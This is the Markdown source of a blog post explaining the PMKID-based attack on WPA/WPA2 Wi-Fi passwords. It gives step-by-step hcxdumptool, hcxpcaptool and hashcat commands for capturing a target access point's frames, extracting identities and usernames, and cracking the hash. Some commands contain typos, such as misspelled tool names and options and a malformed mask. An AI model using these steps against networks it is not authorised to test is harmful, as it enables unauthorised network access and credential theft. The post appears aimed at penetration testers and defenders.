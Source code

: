 ```yaml
---
layout: post
title:  "Cracking WPA1/2/Enterprise with HCXTools"
date:   2018-08-08 13:49:33 +0000
tags: [WiFi, pentest, redteam, blueteam]
---
```

![](/blog/assets/WiFi.png)

A new technique to crack WPA PSK (Pre-Shared Key) passwords.

In order to make use of this new attack you need the following tools:
* [hcxdumptool v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
* [hcxtools v4.2.0 or higher](https://github.com/ZerBea/hcxtools)
* [hashcat v4.2.0 or higher](https://github.com/hashcat/hashcat)

This attack was discovered accidentally while looking for new ways to attack the new WPA3 security standard. However, WPA3 is not vulnerable to this specific attack! WPA3 will be much harder to attack because of its modern key establishment protocol called “Simultaneous Authentication of Equals” (SAE).

The main difference from existing attacks is that in this attack, capture of a full EAPOL 4-way or half EAPOL 2-way handshake is not required. The new attack is performed on the RSN IE (Robust Security Network Information Element) of a single EAPOL frame.

Currently there is no list of vendors or routers that are vulnerable to this attack. But theoretically it should work against all 802.11i/p/q/r networks with roaming functions enabled (most modern routers).

The main advantages of this attack are as follow:
* No more regular users required — because the attacker directly communicates with the AP (aka “client-less” attack)
* No more waiting for a EAPOL handshake between the regular user and the AP
* No more eventual retransmissions of EAPOL frames (which can lead to uncrackable results)
* No more eventual invalid passwords sent by the regular user
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required (resulting in slightly higher speeds)
* No more special output format (pcap, hccapx, etc.) — final data will appear as regular hex encoded string

## Usage
### General WPA/WPA2 Exploit
Dump the packet
```
./hcdumptool -o test.pcapng -i <interface> --enable_status 1
```
Target specific AP:
```
echo 112233445566 > /tmp/filter.txt
./hcdumptool -o test.pcapng -i <interface> --filtermode 2 --filerlist /tmp/filter.txt --enable_status 1
```
### Cracking Enterprise Mode
**Note**: While not required it is recommended to use options -E -I and -U with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.
* -E retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
* -I retrieve identities from WiFi-traffic
* -U retrieve usernames from WiFi-traffic
```
$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng
```
### Hash Cracking
Extract the hash
```
./hcxpcaptool -z test.16800 test.pcapng
```
Crack with hashcat
```
./hashcat -m 16800 test.16800 -a3 -w 3 '?|?|?|?|?|?|t!'
```

## References
* https://hashcat.net/forum/thread-7717.html
